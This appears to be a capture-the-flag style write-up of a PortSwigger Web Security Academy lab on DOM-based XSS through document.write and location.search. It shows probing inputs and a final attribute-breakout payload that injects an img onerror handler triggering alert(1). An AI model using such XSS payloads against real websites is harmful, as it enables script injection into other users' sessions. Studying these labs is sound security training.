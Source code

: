 ## 🧪 Lab: DOM XSS in document.write sink using source location.search (APPRENTICE)

### 🎯 Mission Description  
This lab has a **DOM-based XSS** vulnerability. It uses `document.write()` with data taken directly from `location.search`, meaning any input we put in the URL gets written into the page without sanitization.

### 🎯 Mission Objective  
Trigger an `alert(1)` using a DOM XSS payload via the search parameter in the URL.

### 🧩 Steps  
1. Open the lab URL:  
   ```
   https://0add009903d34e0d801703b700e20038.web-security-academy.net/?search=
   ```

2. Try basic input like:  
   ```
   ?search=test
   ```

   Check source → you’ll see:
   ```html
   <img src="/resources/images/tracker.gif?searchTerms=test">
   ```

3. Try testing for injection:
   ```
   ?search=X<"x
   ```

   You get:
   ```html
   <img src="/resources/images/tracker.gif?searchTerms=X<"x">
   ```

   So yep — it reflects directly into an attribute → promising!

4. Try a standard payload like:
   ```
   <img src=x onerror=alert(1)>
   ```

   Encoded as:
   ```
   ?search=%3Cimg+src%3Dx+onerror%3Dalert(1)%3E
   ```

   → **filtered / blocked**

5. Let’s look deeper... The payload gets placed inside the `src` attribute value of an `<img>`. So, we need to break out of that attribute **safely**.

6. Use this payload:
   ```
   ?search=flex"><img src=x onerror=alert(1)><!--
   ```

   Which results in:
   ```html
   <img src="/resources/images/tracker.gif?searchTerms=flex"><img src=x onerror=alert(1)><!--">
   ```

   🔥 The first `"` closes the `src`, then we inject a whole new `<img>` tag with the payload.

7. Boom 💥 alert box appears → solved.

### 💣 Final Payload  
```
https://0add009903d34e0d801703b700e20038.web-security-academy.net/?search=flex"><img src=x onerror=alert(1)><!--
```

### 📝 Notes  
- Classic DOM XSS using `document.write()` with `location.search`.
- Injection point is inside an `img` tag’s `src` attribute.
- The payload closes the attribute, injects a new tag, and comments out the rest.

**Status: Solved ✅**
